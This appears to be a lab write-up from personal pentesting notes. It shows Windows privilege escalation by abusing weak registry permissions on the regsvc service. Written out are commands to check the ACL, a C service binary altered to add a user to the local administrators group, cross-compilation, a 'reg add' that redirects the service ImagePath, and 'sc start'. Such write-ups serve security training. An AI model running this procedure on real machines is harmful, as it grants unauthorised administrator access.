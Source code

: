 # 🚞 regsvc

Regsvc is a common avenue for privilege escalation in Windows systems. The process involves exploiting weak permissions on the regsvc service, enabling an attacker to gain elevated privileges.&#x20;

### Overview:

<figure><img src="../../../../.gitbook/assets/image (146).png" alt=""><figcaption></figcaption></figure>

the goal of this privesc is to see if we have full control over a registry key and if we do, we can compile a malicious executable in C

let's check if it's vulnerable :

<figure><img src="../../../../.gitbook/assets/image (149).png" alt=""><figcaption></figcaption></figure>

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* **Get-Acl:** This cmdlet retrieves the security descriptor of an object, which includes the access control information.
* **-Path:** Specifies the path to the registry key for the regsvc service.
* **hklm:** Represents the HKEY\_LOCAL\_MACHINE registry hive.
* **System\CurrentControlSet\services\regsvc:** Specifies the specific registry path for the regsvc service.

The `| fl` at the end formats the output using the `Format-List` cmdlet, displaying the ACL properties in a list format.

NT AUTHORITY\INTERACTIVE refers to the locally logged-on user, and providing it with full control means the user has unrestricted access and permissions.

### Escalation <a href="#lecture_heading" id="lecture_heading"></a>

first, let's do a ftp server on our local kali:

I had a few problems on launching the pyftpdlib server, so here is how I managed to solve my problem:

<figure><img src="../../../../.gitbook/assets/image (412).png" alt=""><figcaption></figcaption></figure>

had the error for the longest time, so I went into the directory where the package was installed to do this:

<figure><img src="../../../../.gitbook/assets/image (413).png" alt=""><figcaption></figcaption></figure>

now on my Windows machine:

Now go to the tools file, then source file and open a terminal in there:&#x20;

<figure><img src="../../../../.gitbook/assets/image (414).png" alt=""><figcaption></figcaption></figure>

connect to your ftp with anonymous login&#x20;

and do a `put windows_service.c` file:

<figure><img src="../../../../.gitbook/assets/image (415).png" alt=""><figcaption></figcaption></figure>

The "put" command in FTP is used to upload or transfer files from the local machine to the remote FTP server. Specifically, in the context of the FTP command line, the "put" command is followed by the name of the local file that you want to upload to the FTP server.

So this means the file has been transfered to our local machine, let's close the ftp connection and gedit the file :thumbsup:

<figure><img src="../../../../.gitbook/assets/image (416).png" alt=""><figcaption></figcaption></figure>

If you have a good eye you can see the whoami command being executed in the file -> let's explain

**`system("whoami > c:\\windows\\temp\\service.txt");`**: This line uses the `system` function to execute a system command. In this case, the command is `whoami`, which retrieves information about the currently logged-in user. The output of the `whoami` command is then redirected to a file named `service.txt` in the `C:\Windows\Temp` directory.

The code logs information about the user executing the program, which might be used for auditing or tracking purposes.

If modified to perform malicious activities, it could be used to capture sensitive information without the user's knowledge.

Let's get malicious -> change the whoami command with this:

```
cmd.exe /k net localgroup administrators user /add
```

1. **cmd.exe:** This is the Windows Command Prompt executable.
2. **/k:** This switch tells the Command Prompt to execute the command that follows and remain open afterward, allowing you to view the output.
3. **net localgroup administrators user /add:** This command attempts to add a user named "user" to the local administrators group.

<figure><img src="../../../../.gitbook/assets/image (417).png" alt=""><figcaption></figcaption></figure>

Now exit the text editor and compile the file by typing the following in the command prompt:&#x20;

`x86_64-w64-mingw32-gcc windows_service.c -o x.exe`&#x20;

<mark style="color:yellow;">(NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')</mark>

Now that we have compiled it, run a simple Python HTTP server on whatever port and transfer the file to your Windows machine:

<figure><img src="../../../../.gitbook/assets/image (419).png" alt=""><figcaption></figcaption></figure>

went and saved it on the desktop:

<figure><img src="../../../../.gitbook/assets/image (420).png" alt=""><figcaption></figcaption></figure>

(PS went in conflict with what we did after, put x.exe in the temp file)

now in a new terminal, run this command:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
```

* **`reg add`:** This initiates a new registry entry or modifies an existing one.
* **`HKLM\SYSTEM\CurrentControlSet\services\regsvc`:** Specifies the registry path for the "regsvc" service.
* **`/v ImagePath`:** Sets the "ImagePath" registry entry for the specified service. The "ImagePath" contains the full path to the executable file associated with the service.
* **`/t REG_EXPAND_SZ`:** Specifies the registry value type as REG\_EXPAND\_SZ, which is a type of registry entry that allows expansion of environment variables.
* **`/d c:\temp\x.exe`:** Sets the data for the "ImagePath" registry entry to "c:\temp\x.exe," indicating the location of the executable file for the service.
* **`/f`:** Forces the command to overwrite existing registry entries without prompting for confirmation.

And then start the program with the following:

```
sc start regsvc
```

<figure><img src="../../../../.gitbook/assets/image (421).png" alt=""><figcaption></figcaption></figure>

this is the before and after of the `net localgroup administrators` command:

<figure><img src="../../../../.gitbook/assets/image (422).png" alt=""><figcaption><p>our user has been added </p></figcaption></figure>
